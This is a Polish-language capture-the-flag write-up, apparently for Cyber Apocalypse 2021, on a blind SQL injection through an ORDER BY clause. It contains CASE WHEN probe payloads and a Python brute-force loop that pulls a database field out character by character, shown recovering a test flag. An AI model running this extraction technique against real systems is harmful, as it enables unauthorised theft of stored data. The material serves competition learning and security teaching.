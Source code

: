 ```yaml
---
Źródło: https://nosecurity.blog/cyberApocalypse2021
---
```


# Wygląd platformy

![platforma](./platform.png)

# Logika Blind SQLi

```sql
(CASE WHEN (1=1) THEN id ELSE count END)
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

```sql
(CASE WHEN (1=2) THEN id ELSE count END)
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

```python
finished = False
# atak siłowy zaczynamy od 1 znaku 
# SQL jako pierwszy indeks bierze 1
character_position = 1
# Starting with a blank string and then appending characters to it as we bruteforce
flag = ''

while not finished:
    for character in bruteforce_alphabet:

        sql_payload = '(CASE WHEN (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' THEN id ELSE count END);--'
        
        request = send_order_query(sql_payload)
		
        # jak znajdziemy znak to szukaj kolejnego
        if blind_boolean(request):
            flag += character
            character_position += 1
            print('Hit: ' + flag)
            break
		
        # jak dojdziemy do końca alfabetu to znaczy, że przeszliśmy wszystko
        if character == bruteforce_alphabet[-1]:
            finished = True
```

# 1. 
```sql
SUBSTR(' + sql_field + ',1,' + str(character_position) + ')
```
> wybierz znak na indeksie character_position z pola sql_field

# 2.
```sql
(SELECT 
    SUBSTR(' + sql_field + ',1,' + str(character_position) + ') 
FROM ' + sql_table + sql_where + ')
```
> weź znak z **1.** i przekaż do zapytania z **3.**

# 3.
```sql
(CASE WHEN 
    (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' 
THEN id ELSE count END);--
```
>jeśli wybrany znak odpowiada temu w bazie to wybierz według **id**
> w przeciwnym przypadku wybierz według **count**



# Wynik
```
...
Hit: CHTB{f4k3_fl4g_f0r_t3s
Hit: CHTB{f4k3_fl4g_f0r_t3st
Hit: CHTB{f4k3_fl4g_f0r_t3st1
Hit: CHTB{f4k3_fl4g_f0r_t3st1n
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng}
```